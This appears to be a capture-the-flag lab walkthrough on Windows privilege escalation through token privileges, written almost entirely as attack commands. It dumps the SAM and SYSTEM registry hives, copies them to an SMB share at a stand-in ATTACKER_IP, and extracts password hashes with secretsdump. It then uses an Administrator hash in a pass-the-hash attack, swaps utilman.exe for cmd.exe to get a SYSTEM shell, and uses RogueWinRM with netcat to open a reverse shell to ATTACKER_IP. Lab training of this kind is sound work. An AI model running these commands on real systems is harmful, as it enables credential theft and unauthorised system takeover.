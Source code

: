 Each user has a set of assigned privileges that can be checked with the following command:

```
whoami /priv
```

**SeBackup / SeRestore:**
The SeBackup and SeRestore privileges allow users to read and write to any file in the system, ignoring any DACL in place.

Backup the SAM and SYSTEM hashes with:

```
reg save hklm\system C:\Users\THMBackup\system.hive

reg save hklm\sam C:\Users\THMBackup\sam.hive
```

Setup Directory to Send Files to Attacking Maching:

```
mkdir share

python3.9 /opt/impacket/examples/smbserver.py -smb2support -username user -password pass public share
```

Copy Backups Over:

```
copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\

copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\
```

And use impacket to retrieve the users' password hashes:

```
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
```

Use the Administrator's hash to perform a Pass-the-Hash attack:

```
python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 user@ip
```

**SeTakeOwnership:**
The SeTakeOwnership privilege allows a user to take ownership of any object on the system, including files and registry keys.

To replace utilman, we will start by taking ownership of it with the following command:

```
takeown /f C:\Windows\System32\Utilman.exe
```

Give your user full permissions over utilman.exe with:

```
icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
```

Replace utilman.exe with a copy of cmd.exe:
```
copy cmd.exe utilman.exe
```

To trigger utilman, lock our screen from the start button, and finally, proceed to click on the "Ease of Access" button, which runs utilman.exe with SYSTEM privileges.


**SeImpersonate / SeAssignPrimaryToken:**
These privileges allow a process to impersonate other users and act on their behalf.

Assuming we have already compromised a website running on IIS and that we have planted a web shell on the following address:

`http://10.10.90.78/`

Spawn a listner on your machine with:

```
nc -nlvp port
```

Install RougeWinRM on target system and run it with:

```
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP port"
```



